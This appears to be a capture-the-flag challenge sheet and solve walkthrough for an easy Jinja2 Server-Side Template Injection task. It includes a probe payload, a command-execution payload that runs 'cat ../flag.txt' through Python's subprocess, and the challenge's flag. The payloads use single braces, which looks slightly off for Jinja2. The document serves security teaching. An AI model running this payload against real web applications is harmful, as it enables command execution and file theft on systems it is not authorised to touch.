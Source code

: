 # Challenge Document


### Version: `0.1.0`
### Long Title: Anime Quotes
### Short Title: WEB01
### Author: V37R1X
### Date: 02/08/2025
### Difficulty: Easy
### Learning objective: Learn to identify and exploit Server-Side Template Injection (SSTI) vulnerabilities in Jinja2


## Challenge Brief (as its to be written in RIO):

Navigate to this [website](LINK_HERE) and collect the flag stored in `/flag.txt`! 
Good luck! 

## Solve:

- Navigate to the website/Public IP. 

<img width="946" height="746" alt="image" src="https://github.com/user-attachments/assets/cddf1422-4a8c-40a8-80d4-c4ec2c8c4e02" />


- Inject the SSTI Payload in the `username` parameter to test if its vulnerable to Jinja2 SSTI.

```py
{7*7}
```

<img width="1083" height="1058" alt="image" src="https://github.com/user-attachments/assets/b6ec16c2-8fba-4e7b-a596-83480aafa976" />


- From here we can narrow down the SSTI Payload and create a payload to get the flag:

<img width="938" height="691" alt="image" src="https://github.com/user-attachments/assets/2c962804-d8d5-4b61-9532-47af2c368876" />

```py
{ 'x'.__class__.__base__.__subclasses__()[356]('cat ../flag.txt', shell=True, stdout=-1).communicate()[0] }
```

<img width="1811" height="965" alt="image" src="https://github.com/user-attachments/assets/c14a9a33-3a7b-48d1-9361-ea3f34d106e3" />


- This gets the flag:

```
FLAG{Serv3r_S1d3_T3mpl4t3_Inj3cti0n_SuP3rMaCy!}
```
